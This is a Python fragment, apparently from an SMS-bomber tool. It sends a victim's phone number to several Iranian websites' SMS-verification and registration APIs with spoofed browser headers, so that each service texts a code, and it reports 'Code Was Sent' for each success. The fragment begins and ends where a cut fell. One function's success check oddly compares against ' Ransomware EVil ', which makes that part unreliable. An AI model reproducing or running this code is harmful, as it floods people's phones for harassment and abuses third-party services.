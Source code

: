 'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'application/json',
'origin': 'https://ghabzino.com',
'referer': 'https://ghabzino.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23'}
    try:
        ok = get(timeout=5, url=ghU, headers=ghH, json=ghJ).json()
        if ok["Parameters"] != None:
            print(f'{g}(Ghabzino) {w}Code Was Sent')
            return True
    except:
        pass
def simkhanF(phone):
    ghJ = {
    "mobileNumber": '0'+phone.split('+98')[1],
    "ReSendSMS": False
}
    ghU = 'https://www.simkhanapi.ir/api/users/registerV2'
    ghH = {'Accept': 'application/json',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Authorization': 'Bearer undefined',
'Connection': 'keep-alive',
'Content-Type': 'application/json',
'Host': 'www.simkhanapi.ir',
'Origin': 'https://simkhan.ir',
'Referer': 'https://simkhan.ir/',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23'}
    try:
        ok = post(timeout=5, url=ghU, headers=ghH, json=ghJ).json()
        if ok['Message'] == "ثبت نام شما با موفقیت انجام شد":
            print(f'{g}(SimKhan) {w}Code Was Sent')
            return True
    except:
        pass
def simkhanT(phone):
    ghJ = {
    "mobileNumber": '0'+phone.split('+98')[1],
    "ReSendSMS": True
}
    ghU = 'https://www.simkhanapi.ir/api/users/registerV2'
    ghH = {'Accept': 'application/json',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Authorization': 'Bearer undefined',
'Connection': 'keep-alive',
'Content-Type': 'application/json',
'Host': 'www.simkhanapi.ir',
'Origin': 'https://simkhan.ir',
'Referer': 'https://simkhan.ir/',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23'}
    try:
        ok = post(timeout=5, url=ghU, headers=ghH, json=ghJ).json()
        if ok['Message'] == " Ransomware EVil ":
            print(f'{g}(SimKhan) {w}Code Was Sent')
            return True
    except:
        pass
def drsaina(phone):